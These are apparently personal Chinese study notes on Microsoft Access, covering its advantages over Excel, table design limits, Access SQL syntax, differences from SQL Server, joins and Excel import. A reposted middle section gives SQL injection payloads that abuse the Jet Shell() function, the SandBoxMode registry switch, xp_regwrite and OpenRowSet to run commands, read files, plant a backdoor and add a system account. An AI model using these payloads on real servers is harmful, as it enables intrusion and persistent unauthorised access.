

# Access

Access是关系数据库RDBMS，表关系

Excel是任意形式单个表格设计


https://zhuanlan.zhihu.com/Jasoftiger-MSAccesss 专栏

https://www.zhihu.com/question/28242472/answer/40168468  学习方法资料


# 范式


如何理解关系型数据库的常见设计范式？ \- 刘慰的回答 \- 知乎 https://www.zhihu.com/question/24696366/answer/29189700


# access区别


作者：tmtony  
链接：https://www.zhihu.com/question/55829988/answer/366926900  
来源：知乎  
著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。  
  

**一、Access对比Excel的优势：**

1.Excel录入非常灵活，但这个优点恰恰也是它的缺点，这将导致录入人员随意使用不同的格式和标准，数据杂乱，无法统一内容以及进行大量数据对比分析，Access恰恰可以解决这些问题，它本身就是关系数据库，对数据的校验要求严格，不同的数据类型存放不同的数据。

  

2.Access相对Excel来说，存储的数据容量容易会大很多，可以存放几百万甚至上千万的数据，大家都知道Excel2003有数据限制，即使是Excel2010或更高版本，即使数据容量扩展了，但一旦数据非常大时，文件打开及数据分析都会很慢，Excel里面搞个几万行撑死如果再加上很多公式，很容易卡死，并且还有文件损坏的风险。而Access里存放几百万的数据，并且通过索引在关系数据库中查询这些内容速度会非常快。

  

3.Excel没有专业的窗体 报表 查询 这些元素，要做窗体界面必须要借助Form2.0, 而Access里是窗体 报表以及各种丰富的内置控件，与专业的开发工具无异，而且还可以通过Activex使用更丰富的第三方控件。

  

4.Excel的VBA代码虽然可以加密，但无法真正阻挡窥视者的目光，且无法编绎和生成不含源码的执行文件，而Access可以生成mde或accde ,它相当于VB或Delphi生成的exe执行文件。发布与打包将更加方便，而且可以保证源作者的代码安全及保护版权。

  

5.Access可以将数据表与前端的窗体、报表以及模块拆分开来，这样更新数据时不影响程序，更新程序时不影响数据。相对独立安全。且安装及更新方便。

  

6.Excel无法脱离Office运行，必须要先安装一个Office及Excel组件才能使用，而Access可以像VB运行时一样，只要客户电脑安装一个Access Runtime的运行包，就可运行你生成的Access执行程序，更像一个专业的管理软件

  

7.Access可以制作出专业的管理软件启动窗体、登录界面、软件主界面、各种数据录入窗体、数据查询窗体、报表打印，可以包装成一个专业的软件样式，而看不出是Office开发出来的。而Excel一般启动时都能看出Excel的影子，且容易破解窗体和代码。

  

8.Access作为前台，通过ODBC链接到Access后台、Sql server后台、Mysql甚至Oracle数据库，可以工厂和单位实现企业级的管理软件应用，甚至跨集团的应用，这种应用在我们的客户中屡见不鲜。

  

9.Access作为一个完整的前后台，还是拆分成前后台2个文件，或链接到Sql server大型数据库，前台开发的方式基本上都保持一致，你可以开始在Access后台来开发一个小型应用，成熟后再升迁到Sql server大型数据库，以前开发的代码几乎完全可以继续使用。

  

10.Access支持大部分的Sql标准语法，这样可以利用到数据库的很多优势，这是Excel无法比拟的

  

**二、对比VB Delphi 专业开发工具：**

  

1.Access的数据表 查询这些后台数据库的元素与窗体、窗体、模块、类模块这些前端开发工具的元素是结合在一起的，窗体有些类似PowerBuilder的数据窗口，且创建窗体和报表都是使用拖拉的方式来完成，有时甚至不需要编写代码，直接使用内置的窗体向导、报表向导就可快速高效生成很多常用的窗体和报表。

  

2.代码是VBA，与Excel Word Outlook Powerpoint内置的VBA语法是完全一致的，VBA的语法与VB非常相似，VB和VBA在全世界的用户群体是非常大的。也非常适合非专业的开发人员

  

3.用Access开发企业内部管理系统或部门级的应用软件，比如生产管理系统、人事管理系统、销售管理系统、考勤管理系统、库存管理系统、工资管理系统等各类企业内部的管理软件，是非常有优势的，它的最大的优点是：易学易用、高效快捷。非计算机专业的人员，也能很快学会。

  

4.熟悉Excel操作的的办公人员与管理人员，熟悉一点VBA，甚至完全不懂VBA编程的，也可快速地学会Access编程开发，通过拖拉和宏就可快速地实现一个个人或部门甚至企业内部使用的管理系统，可以低成本地满足了那些从事企业管理工作人员的需要，通过Access数据库软件来规范公司员工操作数据的行为，进而规范数据，统一数据，共享数据，从而在公司快速推行其管理思想。

  

5.相对VB、Delphi、[http://VB.net](https://link.zhihu.com/?target=http%3A//VB.net)、 C#、Java等专业语言，Acess更适合非计算机专业人员，它是Office的成员之一，与Excel Word PPT天生亲近，且界面类似，操作一致，且非常容易导入导出，与Office其它组件无缝连接。这让办公人员与管理人员不需要花太多时间，就可以实现了非计算机专业人员开发出专业软件的梦想，从而从单一的管理人员转为“懂管理+明业务+熟软件+会分析”的综合型人才。这种跨界与复合能够让你的能力快速提升，并大大拓宽您的视野和边界，从而让你在公司的地位和待遇水涨船高。

  

6.开发高效，曾经有同一间公司同时让VB和Access程序员同时做一套管理系统，VB程序员使用了几个星期，而Access程序员在一边了解客户需求同时，就一边开始在设计数据表及开始拖拉设计窗体，调研完成时，软件的框架和雏形已经搭成，然后再通过几天的完善，就开发完成了。所以越是中小型管理软件项目，Access越是有非常大的优势。


www.office-cn.net

www.access-cn.com

https://www.zhihu.com/question/28880606

 Access 与 Excel 最重要的区别是什么?


数据库有3类，Oracle,MySQL,SQLServer,看你要学哪种，虽然大致差不多，但也有些许区别

1.  先了解数据库中的数据类型，有哪些
    
2.  创建数据库，删除数据库语句，建表语句，删除表语句，查看数据库中表语句
    
3.  主键，自动增长
    
4.  表中的增，删，改，查，一个个慢慢来
    
5.  一些关于表字段的统计语句，一些有关的函数，再接着就是索引，外键约束，报表等等
    
    可以推荐一个网站，可以照着看看练习[http://www.w3cschool.cn/sql](http://www.w3cschool.cn/sql)


**不要浪费数据类型的效果**  
  
当你要存储数字数据时，你也许会想要指定一个数字的数据类型。在你这么做之前，请先考虑一下数据的用途。例如，你不会将街区号码或是邮政编码的数值用在数学等式中。这样的话，请将数据存储为文本。你会节约一些内存，但更重要的是，数据类型是按照数据的用途的。如果你需要使用一个文本值作为真数值，则可在表格中表示文本域的域中使用Val()函数“=Val(field)”（此域存储数值或文字值）。  
  
**使用最适当的域的大小**  
  
由于如今的系统都很强大，要指定最合适的域的大小则不再是像过去那样紧迫的任务。然而，为了能够更好地实施工作，开发者仍然会限定域的大小。你首先要做的步骤就是使数据生效。例如，你将州名所写存储在一个域大小设置为2的文本域中。如果用户输入的是ARK而不是AK，Access将会拒绝接受这条输入。当然，域大小的属性仅会拒绝过大了的条目，它无法探明输入或是其它的错误。这个域仍然会接受其它有误的条目，例如“A”或“K6”。  
  
这也能应用在数字域上，只是没有那么明确的范围。例如，一个字节域能够接受的值可以从0到255，而长整数域可接受的值的范围则从-2,147,483,648到2,147,483,647。  
  
为每个域选择适当的数据类型和域大小的属性。始终选择最小的数据类型以及域大小，就有可能地在这个域中容纳最大的值。  
  
**使用分析工具**  
  
Access有两个工具能够帮助你精炼你的设计。第一个就是表格分析器向导，它能够检查一个表格并像你推荐在哪处做出改变比较合适。第二，就是性能分析器，它能够检查你整个数据库，并对改进设计提出建议。通常，你都会采用向导所提出的建议。  
  
无论你要运行哪个向导，都可以在“工具”菜单中选择分析器之后再选择合适的项目。  
  
**不要忘记表格的属性**  
  
就像域一样，表格也有能够定义其用途的属性。大多数都能够自我解析，而默认的属性也通常都足够合适。要访问这些属性，只需要在设计视图下打开表格，接着在“视图”菜单中选择“属性”。以下是一些你应该知道的东西：  
  
排序依据：指定一个排列的顺序，当你在打开表格的时候Access能够应用它。只需要根据你想要分类排序的记录输入域的名称。如果你没有使用这项设置，Access则会根据主键来进行排序。如果没有主键，Access则会按照数据输入的顺序来显示。它与表层并不会有太多的关系，因为用户不会查看表格。然而，就像很多域的属性那样，捆绑的对象会继承属性。  
  
子数据表名称：它决定了子数据表是否会显示相关的记录。许多人都觉得子数据表很恼人，如果你也这么认为，则可以将这个属性设置为\[None\]来禁用它。  
  
**注意其中的界限范围**  
  
尽管你可能永远也不会接触到表格界限范围的设置，但你还是必须知道它们是存在的：  
  
表格名至多可以包含64个字符。  
  
域名称之多可以包含64个字符。  
  
每个表格至多可以包含255个域。  
  
表格大小的限制范围在2GB减去系统对象所需要的空间大小。  
  
文本域之多可存储255个字符。  
  
当你通过用户界面输入数据时，备忘域能够存储至多65535个字符。如果从程序上来说，输入数据，它能够接受至多1GB大小。  
  
OLE域能够支持至多1GB大小。  
  
每个表格能够具有至多32个索引。  
  
每个索引可以包含至多10个域。  
  
一个有效规则表达能够存储至多2045个字符；有效文本属性能够具备之多255个字符。  
  
描述属性能够存储至多255个字符。  
  
每项记录能够存储至多4000个字符（2003版本），如果是2002版本则是2000个字符。


# Access SQL
https://support.office.com/zh-cn/article/Access-SQL：基本概念、词汇和语法-444D0303-CDE1-424E-9A74-E8DC3E460671


如何在Access使用SQL

www.accessoft.com/article-show.asp?id=16727


[超级靠谱看这里就行了！http://www.accessoft.com/article-show.asp?id=16727](http://www.accessoft.com/article-show.asp?id=16727)

```sql
CREATE TABLE 学生信息
(name CHAR(10),
 sex  CHAR,
 nation CHAR(20),
 birthday DATETIME,
 location CHAR(20),
 phone CHAR(11));


```


like查询用* 
SELECT * 
FROM flash 
WHERE filename like '*http*';


DELETE * 
FROM company_guangxi 
WHERE 机构名称 not like '*公司*' and 机构名称 not like '*工厂*';


删除查询 
DELETE * FROM 订单 WHERE 订单.下单日期 <=#1/1/2002#


更新查询 
UPDATE 产品 SET 产品.建议售价 = [建议售价]*1.2 WHERE 产品.厂牌="MOTOROLA"

 

access sql语句查询 
查询时生成序号 
SELECT (SELECT Count([xlh].[aa]) AS AutoNum FROM xlh WHERE (((xlh.aa) <=xlh_Alias.aa));) AS 序号, xlh.aa 
FROM xlh AS xlh_Alias INNER JOIN xlh ON xlh_Alias.aa=xlh.aa 
ORDER BY xlh.aa;


多表sql查询 
SELECT test.aa AS 第一个字段, test1.bb AS 第二个字段, test1.cc 
FROM test, test1 
WHERE test.aa=test1.aa;

 

多表sql查询1 
SELECT a.aa, b.bb, b.cc, b.cc*100 AS 合计 
FROM test AS a, test1 AS b 
WHERE a.aa=b.aa;

 

多表sql查询排序 
SELECT a.aa, b.bb, b.cc AS 第三个字段 
FROM test AS a, test1 AS b 
WHERE a.aa=b.aa 
ORDER BY b.cc;

 

查询例子 
SELECT a.dhhm 
FROM xl11a AS a, xl919 AS b 
WHERE a.dhhm=b.dhhm and aa <>"1";

 

日期时间分隔符是#而不是引号 
Select * From Tab1 Where [Date]>#2002-1-1#;

 

函数及计算 
合计的群组,运算式及条件 
SELECT 订单.客户编号, Sum(订单.含税价) AS 含税价之总计, Last(订单.订单日期) AS 订单日期之最后一笔, Date()-[订单日期之最后一笔] AS 距今天数 FROM 订单 WHERE (订单.订单日期>=#12/1/2006#) GROUP BY 订单.客户编号 
11-2 查询指令 
群组 
条件 
多个计算栏位 
多资料表查询指令 
INNER JOIN-最基本的JOIN方式 
SELECT 客户.公司名称, 订单.订单编号, 订单.订单日期 FROM 客户 INNER JOIN 订单 ON 客户.客户编号 = 订单.客户编号 
11-2 查询指令 
多资料表查询指令 
LEFT及RIGHT JOIN 
SELECT 客户.公司名称, 客户.连络人姓名, 订单.客户编号 FROM 客户 LEFT JOIN 订单 ON 客户.客户编号 = 订单.客户编号 WHERE (订单.客户编号 Is Null) 
11-2 查询指令 
四种动作查询指令 
制成资料表 
SELECT 客户.客户编号, 客户.公司名称, 订单.下单日期, 订单.含税价 INTO 客户及订单 FROM 客户 INNER JOIN 订单 ON 客户.客户编号 = 订单.客户编号 
新增查询 
INSERT INTO 客户及订单 ( 客户编号, 公司名称, 下单日期, 含税价 ) SELECT 客户.客户编号, 客户.公司名称, 订单.下单日期, 订单.含税价 FROM 客户 INNER JOIN 订单 ON 客户.客户编号 = 订单.客户编号 
11-3 动作查询指令 
四种动作查询指令

 

下边列出sql server与access的语法差别，方便大家在更换程序数据库时查询。

日期分隔符号 
　　access：英镑符（#） 
　　sql server：撇号（’）

Boolean 常量 
　　access：True、False；On、Off；Yes、No；整数：-1(真)、0(假)。 
　　sql server：整数：1（真）、0（假）


字符串连接 
　　access：和号（&） 
　　sql server：加号（+）

通配符 
　　access：星号（*）与零个或更多字符匹配。  
　　　　　　问号（?）与单个字符匹配。 
　　　　　　叹号（!）意味着不在列表中。 
　　　　　　英镑符（#）意味着单个数字。 
　　sql server：百分号（%）与零个或更多字符匹配。  
　　　　　　　　下划线（_）与单个字符匹配。 
　　　　　　　　上插入符（^）意味着不在列表中。 
　　　　　　　　没有与英镑符（#）对应的字符。

DROP INDEX 
　　access：Drop Index <索引名> ON <表名> 
　　sql server：Drop Index <表名>. <索引名>

表添加标识列 
　　access：alter table <表名> add <列名> Counter(1,1) 
　　sql server：alter table <表名> add <列名> bigint identity(1,1) not null

 

1.基本的sql语句
select 字段,'字符串' from 表名 where 条件 order by desc/asc
update 表名 set 字段=值 where 条件
delete from 表名 where 条件
insert into 表名(字段名1,字段名2) VALUES('值1','值2')
注意：字段名，表名最好使用[]括起来 以免碰到保留字报错 即使不是保留字 也用下方括号 养成个好习惯
我这里使用站点维护管理系统来演示
首先建立一个数据库
SELECT * FROM [public]
最基本的语句 显示表里所有的字段 如果我们只要显示一个text那么，如果需要显示其他的内容呢？这里有个好处是access的sql语句 可以对数据做简单处理 比如一些数据过长 我们只要显示20字符 下面看
怎么样 效果很明显吧 字段名可以按照一个变量来处理 调用一些基本函数 这些函数可以参考access的帮助
看到了吧
那么是不是能直接输出字符串呢？我另外设置个常量列 做字符串
不过这样的东西 就不能用这个工具直接改了 毕竟我这个是用来黑站的 不是做实验……
那么在实际的应用中 是不是可以直接处理成html代码直接输出？
我们看看比如我们需要这样的<a href="?id=用户ID>用户名</a>这样的数据格式 常规做法是从数据库调ID和用户名出来 再到asp里分别设置成2个变量处理 那么我们看看直接在sql里操作！字符串前后要用单引号 连接使用"&"符号
出来了 没错吧
SELECT '<a href=?id='&id&'>'&user&'</a>' FROM [user]
我分析下 这里把'<a href=?id='做常量 之后数据库的字段按变量处理 之后连接 就是'常量'&变量&'常量'
这个应该很熟悉了吧 之后要注意的是 这样把几个变量合成了一列 一列是按照文本格式处理的 长度如果超过了255 后面的数据就会丢失 所以在实际运用的时候 应该注意下分解长度 把很长的一列 分成多列 比如
用,表示分列 之后分别调用就可以了
之后是条件 表名后加where order是排列顺序desc倒序/asc顺序
很明白了吧
update 表名 set 字段=值 where 条件
修改就更简单了 条件最好不要用字符型 要不效率低 也容易出错
delete 也一样了DELETE FROM [test] WHERE name='test'
这条数据就删除了
(字段名1,字段名2)这个是可以省略的 省略时表示按顺序插入所有字段(字段名1,字段名2)
insert into test VALUES('test',2,now)
注意这个now也是一个函数 表示当前时间 一般的说 时间的值用now的可能性比较大 不用专门设定
sql="select * from 数据表 where 字段名=字段值 order by 字段名 [desc]"

sql="select * from 数据表 where 字段名 like '%字段值%' order by 字段名 [desc]"

sql="select top 10 * from 数据表 where 字段名 order by 字段名 [desc]"

sql="select * from 数据表 where 字段名 in ('值1','值2','值3')"

sql="select * from 数据表 where 字段名 between 值1 and 值2"

(2) 更新数据记录：

sql="update 数据表 set 字段名=字段值 where 条件表达式"

sql="update 数据表 set 字段1=值1,字段2=值2 …… 字段n=值n where 条件表达式"

(3) 删除数据记录：

sql="delete from 数据表 where 条件表达式"

sql="delete from 数据表" (将数据表所有记录删除)

(4) 添加数据记录：

sql="insert into 数据表 (字段1,字段2,字段3 …) valuess (值1,值2,值3 …)"

sql="insert into 目标数据表 select * from 源数据表" (把源数据表的记录添加到目标数据表)

(5) 数据记录统计函数：

AVG(字段名) 得出一个表格栏平均值 
COUNT(*|字段名) 对数据行数的统计或对某一栏有值的数据行数统计 
MAX(字段名) 取得一个表格栏最大的值 
MIN(字段名) 取得一个表格栏最小的值 
SUM(字段名) 把数据栏的值相加

引用以上函数的方法：

sql="select sum(字段名) as 别名 from 数据表 where 条件表达式" 
set rs=conn.excute(sql)

用 rs("别名") 获取统的计值，其它函数运用同上。

(5) 数据表的建立和删除：

CREATE TABLE 数据表名称(字段1 类型1(长度),字段2 类型2(长度) …… )

例：CREATE TABLE tab01(name varchar(50),datetime default now())

DROP TABLE 数据表名称 (永久性删除一个数据表)
————————————————
版权声明：本文为CSDN博主「tercel99」的原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/Tercel99/article/details/5725157


1、对于日期字段表示的区别

（1）ACCESS表示为：#1981-28-12#

（2）SQL Server表示为：''1981-02-12''


2、多表操作时update语句的区别

（1）SQL SERVER中更新多表的UPDATE语句:

UPDATE Tab1

SET a.Name = b.Name

FROM Tab1 a,Tab2 b

WHERE a.ID = b.ID;

（2）同样功能的SQL语句在ACCESS中应该是：

UPDATE Tab1 a,Tab2 b

SET a.Name = b.Name

WHERE a.ID = b.ID;

即:ACCESS中的UPDATE语句没有FROM子句,所有引用的表都列在UPDATE关键字后。

更新单表时：都为：

UPDATE table1 set ab=‘12‘,cd=444 where ....

3、delete语句中的区别

（1）ACCESS中删除时用：delete * from table1 where a>2 ，即只要把select 语句里的select 换成delete就可以了。

（2）SQL Server中则为: delete from table1 where a>2 ，即没有*号。

4、as 后面的计算字段区别

（1）ACCESS中可以这样：select a,sum(num) as kc\_num,kc\_num*num as all\_kc\_num 即可以把AS后的字段当作一个数据库字段参与计算。

（2）SQL Server中则为：select a,sum(num) as kc\_num,sum(num)*num as all\_kc_num 即不可以把AS后的字段当作一个数据库字段参与计算。

5、\[.\]与\[!\]的区别

（1）ACCESS中多表联合查询时：select tab1!a as tab1a,tab2!b tab2b from tab1,tab2 ,中间的AS可以不要。

（2）SQL Server中则：select tab1.a as tab1a,tab2.b tab2b from tab1,tab2 ,中间的AS可以不要。

参考资料来源：[百度百科—access](https://baike.baidu.com/item/access/5245577#viewPageContent "百度百科—access")

参考资料来源：[百度百科—sql server](https://baike.baidu.com/item/Microsoft%20SQL%20Server?fromtitle=sql+server&fromid=245994 "百度百科—sql server")


Access SQL：基本概念、词汇和语法

https://support.office.com/zh-cn/article/Access-SQL：基本概念、词汇和语法-444D0303-CDE1-424E-9A74-E8DC3E460671


 A**ccess通配符参考**

https://support.office.com/zh-cn/article/Access-通配符参考-AF00C501-7972-40EE-8889-E18ABAAD12D1


## Access数据库也能执行cmd命令

Access查询中有类似这样的语句

**Select * from Sometable where somefield='|Select Shell("cmd.exe /c dir")|'**   
关于这个语句的介绍,是漏洞资料中所说的,Access允许用"|"来创建VBA函数,导致命令被执行,其实这只是Access内置的一个特殊函数而已,相类似的还有cudir和Command函数.具体的我们可以在Access中测试.测试的SQL语句如下:

**Select Shell("cmd.exe /c dir c:\ > c:\\kevin.txt")**

  
回到C盘,我们果然看到了kevin.txt.说明语句执行成功了.   
然后我们将其转到脚本中测试吧.编写如下的VBS脚本   
Set Conn=Createobject("Adodb.Connection")   
Conn.Open "Provider=Microsoft.Jet.OLEDB.4.0;Data Source=kevins4t.mdb"   
Set Rs=Conn.execute("Select Shell(""cmd.exe /c dir c:\ > c:\\kevin.txt"")")   
Msgbox Rs(0)   
这一此出现的结果很出乎我们的意料,错误的原因是"表达式中的'Shell'函数未定义".现在我们需要安静下来喝杯咖啡然后思考为什么同样的语句在不同的执行者间会出现如此截然不同的问题.一个能正常执行,

而另外一个则是找不到函数.试想微软一定在其中的什么地方设置了一个开关,那么我们就去微软的知识库去了解一下.   
在微软的一篇关于沙盒模式的文档中,我们了解到一些内容:   
为了安全起见,MS在Jet引擎的Sp8中,设置了一个名为SandBoxMode的开关,这个开关是开启一些特殊函数在另外的执行者中执行的权限的.它的注册表位置在   
HKEY\_LOCAL\_MACHINE\\SoftWare\\Microsoft\\Jet\\4.0\\Engine\\SandBoxMode里,默认是2.微软关于这个键值的介绍为:0为在任何所有者中中都禁止起用安全设置,1为仅在允许的范围之内,

2则是必须是Access的模式下(这就是为什么我们能在Access中执行成功的原因.),3则是完全开启,连Access中也不支持.   
那么好吧,我们来看看如果将值变为0将会怎样.   
这次运行我们的VBS的时候,出现的情况是一组数字,再在C盘下查看文件,果然看到了我们的kevin.txt.很神奇吧.原来Access也是可以执行命令的,只是微软这家伙总是懒得说出来而已.但是如果在实际方面会怎样呢?

一.后门的设置   
我们的运用将会很窄.真的,一来我们需要的权限很高,起码要到能改注册表的权限,默认是Admin和LocalSystem,二来是我们将如何修改注册表，远程吗?没门的.所以我们只好将其当作一个后门用.

只要我们修改了注册表的值,那么在普通的注入语句中,这是一个很不错的后门方式,最起码可以在外部执行一些小小的命令什么的.   
比如我们在渗透某个站点的时候拿到了最高权限,并且修改了这个SandBoxMode,之后我们被管理员扫地出门了.那么,在首页的某个地方依旧存在这一个Select的注入点,这样最好,我们让服务器执行如下的SQL就行了.

**InjectionURL' and 0<>(select shell("cmd.exe /c net user >   
c:\\inetpub\\wwwroot\\kevins4t.txt"))%00**   
这样我们就可以一步一步的将重新服务器拿下.   
二.远程攻击   
这将是一个很有意思的话题.首先我们必须有修改注册表的权限,二是有修改注册表的条件,三是可以执行SandboxMode的环境,必须三样同时满足才行,到底是在什么情况下呢?

我们知道,我们平时在杂志上看到的文章,很多的无非就是在一个以Sa连接的InjectionURL中苦苦挣扎,一是执行命令,如果去掉了扩展或者是将扩展需要的DLL移走,我们将一无所用.那么聪明的你是否想到了方法?

我们知道,只有Sa的权限才有可能去打开另外一个Access的连接的,当我们满足了打开Access的条件的同时,我们也满足了修改注册表的条件和权限,因为MSSQL有一个名为xp_regwrite的扩展,它的作用是修改注册表的值.语法如下

exec maseter.dbo.xp\_regwrite Root\_Key,SubKey,Value_Type,Value   
那我们只要将SandBoxMode修改为0或者1就成功了.然后则是MSSQL的OpenRowSet函数,它用于打开一个特殊的数据库或者连接到另一个数据库之中.当我们具备SysAdmin的权限的时候,我们就可以做到打开Jet引擎.那么我们只要连接到一个Access数据库中,

然后执行命令就可以了.但是关键的问题是如何寻找这个Access数据库.   
关于这个问题我以前想了很多,一开始是想,利用目录便历来查询数据库的位置.但是这种方法成功率不会很高,有的时候我们碰到很多的站点都设置了非常好的权限,无法找到MDB数据库.这是最为烦恼的地方.

不过后来我想到了一些前人用过的方式,系统里本来就有2-3个现存的数据库嘛,何必费神的去找呢?它们的位置在%windir%\\system32\\ias\\ias.mdb或者%windir%\\system32\\ias\\dnary.mdb这样一来,我们有了执行宿主,就没什么好怕的了.执行一下我们所需要的命令吧

InjectionURL';Select * From   
OpenRowSet('Microsoft.Jet.OLEDB.4.0',';Database=c:\\winnt\\system32\\ias\\ias.mdb','select   
shell("net user kevin 1986 /ad")');--   
这样,我们就执行了命令了.而且继承的是MSSQL的LocalService的System权限.

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

  
用户表   
SELECT Name FROM msysobjects WHERE Type = 1 and flags=0   
所有表   
SELECT Name FROM msysobjects WHERE Type = 1

判断版本：   
SELECT NULL FROM MSysModules2 '97   
SELECT NULL FROM MSysAccessObjects '97 2000   
SELECT NULL FROM MSysAccessXML '2000 2002-2003   
SELECT NULL FROM MSysAccessStorage '2002-2003 2007

SandBoxMode:   
SandBoxMode的开关,这个开关是开启一些特殊函数在另外的执行者中执行的权限的.它的注册表位置在   
HKEY\_LOCAL\_MACHINE\\SoftWare\\Microsoft\\Jet\\4.0\\Engine\\SandBoxMode里,默认是2.   
微软关于这个键值的介绍为:0为在任何所有者中中都禁止起用安全设置,1为仅在允许的范围之内,   
2则是必须是Access的模式下(这就是为什么我们能在Access中执行成功的原因.),3则是完全开启,连Access中也不支持.

执行命令：   
Select Shell("cmd.exe /c dir c:\ > c:\\kevin.txt")

读文件   
SELECT * FROM \[TEXT;DATABASE=c:\\;HDR=NO;FMT=Delimited\].\[kevin.txt\]

写文件：【不能在子查询和UNION查询中，实用价值不大】   
SELECT "text to write" into   
\[TEXT;DATABASE=c:\\;HDR=NO;FMT=Delimited\].\[kevin1.txt\]

当前路径：sandboxing enable   
select curdir() from msysaccessobjects   
select dir('c:\ ') from msysaccessobjects   
select environ(1) from msysaccessobjects   
select filedatetime('c:\\boot.ini') from msysaccessobjects   
select filelen('c:\\boot.ini') from msysaccessobjects   
select getattr('c:\ ') from msysaccessobjects   
select shell('cmd.exe /c dir c:\ > c:\\kevin.txt') from msysaccessobjects

跨文件查询：   
SELECT * FROM dv\_address IN 'D:\\dailian\\bbs\\Dvbbs8.2.0\_Ac\\Data\\IPaddress.mdb'

连接MSSQL:   
SELECT * FROM \[ODBC;DRIVER=SQL SERVER;Server=(local);UID=sa;PWD=2853wang;   
DATABASE=master\].Information_Schema.Tables

也不记得在那里转载的了,一直存者,文章有部分修改.
[https://blog.csdn.net/liguocheng/article/details/38067775](https://blog.csdn.net/liguocheng/article/details/38067775)


having和where都是用来进行条件筛选的，having是筛选组中的记录，而where是筛选整个表中的记录。Where子句不仅用于选择查询语句中，也广泛应用于Insert、Update及Delete等操作查询语句中，而having只能与group by子句配合使用，对分组进行筛选，只用在选择查询语句中。

当一个语句中同时含有where、group by、 having及汇总函数时，执行顺序如下：

1、执行where子句查找符合条件的数据；

2、使用group by子句对数据进行分组；对group by子句形成的组运行汇总函数计算每一组的值；

3、最后用having子句去掉不符合条件的组。

4、having子句和where子句都可以用来设定限制条件以使查询结果满足一定的条件限制。having子句限制的是组，而不是行。where子句中不能使用聚集函数，而having子句中可以。


删除后长相难看：



DELETE * FROM 学生信息 WHERE name='丽丝';

表格关闭之后打开就没有事情了

清空一张表非常简单，只要用如下SQL语句就轻易完成：

Delete FROM *table*

或者用：

Delete * FROM *table*


Top N
[http://www.accessoft.com/article-show.asp?id=16819](http://www.accessoft.com/article-show.asp?id=16819)

合并表格
**运用UNION操作符来合并结构相同的表或查询**
[http://www.accessoft.com/article-show.asp?id=16821](http://www.accessoft.com/article-show.asp?id=16821)


SQL JOIN（连接）查询有多种类型，具体如下：

-   **INNER JOIN（内部连接）**：返回两个表中相关字段存在匹配值的记录。
-   **LEFT OUTER JOIN（左外部连接）**：返回左表中全部记录，并同时返回右表中与之相匹配的记录。
-   **RIGHT OUTER JOIN（右外部连接）**：返回右表中的全部记录并同时返回左表中与之相匹配的记录。
-   **FULL OUTER JOIN（全外部连接）**：返回所有的与左表或者与右表关联匹配的记录。


[http://www.accessoft.com/article-show.asp?id=16827](http://www.accessoft.com/article-show.asp?id=16827)


交叉表查询类似于EXCEL电子表格中的交叉分析，将数据以行、列二维方式显示，适用于计算总计、平均值、计数或其他类型的总和等统计结果。使用交叉表查询可以计算并重新组织数据的结构，更加方便地分析数据。

[http://www.accessoft.com/article-show.asp?id=16835](http://www.accessoft.com/article-show.asp?id=16835)


子查询
[http://www.accessoft.com/article-show.asp?id=16838](http://www.accessoft.com/article-show.asp?id=16838)
子查询是SQL查询中经常性使用的一个重要对象，所谓子查询就是一个嵌套在其它查询中的Select查询，换句话说，子查询是一个Select语句，它嵌套在Select、Select...INTO、Insert...INTO、Delete或Update语句中，或嵌套在另一个子查询中。
**第一种语法形式的子查询**

通过同义的ANY或SOME谓词，可以检索在主查询的记录中满足与子查询所检索出的任何记录进行比较的比较条件的记录。下面的示例通过结合子查询来从“产品”表中返回那些折扣高于25%出售的任何产品：


**第二种形式的子查询**

通过IN谓词可以只检索出在主查询的记录中作为子查询的一部分记录而包含相同值的记录。下面示例的SQL语句返回所有以25%或更高折扣出售的所有产品：


**第三种形式的子查询**

在True/False比较条件中使用EXISTS谓词（带有可选的NOT保留字）可确定子查询是否返回任何记录。

也可以在子查询中使用表名的别名来引用在子查询外部的FROM子句中列出的表。以下示例返回薪水等于或高于具有同等职称的所有雇员平均薪水的雇员的姓名。Employees表的别名为"T1"：


外部数据库链接：

[http://www.accessoft.com/article-show.asp?id=16840](http://www.accessoft.com/article-show.asp?id=16840)


纯文本
[http://www.accessoft.com/article-show.asp?id=16842](http://www.accessoft.com/article-show.asp?id=16842)


**EXCEL格式的数据表的导入与导出**

[http://www.accessoft.com/article-show.asp?id=16850](http://www.accessoft.com/article-show.asp?id=16850)

```sql
*FROM*  *sheet1$*  IN  {*path* | \["*path*" "*type*"\] | \["" \[*type*; DATABASE = *path*\]\]}


Select * INTO 学生成绩

FROM \[学生成绩示例$\]

IN 'D:\\SQL for ACCESS\学生成绩1.xlsx'

\[EXCEL 12.0 XML;\];

执行后就会在当前数据库中生成一个新的“学生成绩”的表，打开查看效果如图17-3所示：

图17-3：导入EXCEL工作表生成的表

其实SQL语句可以有多种写法，如：

Select * INTO 学生成绩

FROM \[学生成绩示例$\]

IN ''

\[EXCEL 12.0 XML;HDR=yes;DATABASE=D:\\SQL for ACCESS\学生成绩1.xlsx\];

或：

Select * INTO 学生成绩

FROM \[EXCEL 12.0 XML;HDR=yes;DATABASE=D:\\SQL for ACCESS\学生成绩1.xlsx;\].\[学生成绩示例$\];

这些不同的写只是书写格式的不同，执行后完成的任务是一样的
```
还能录入xlsx xlsm宏，xlsb二进制文件看网页


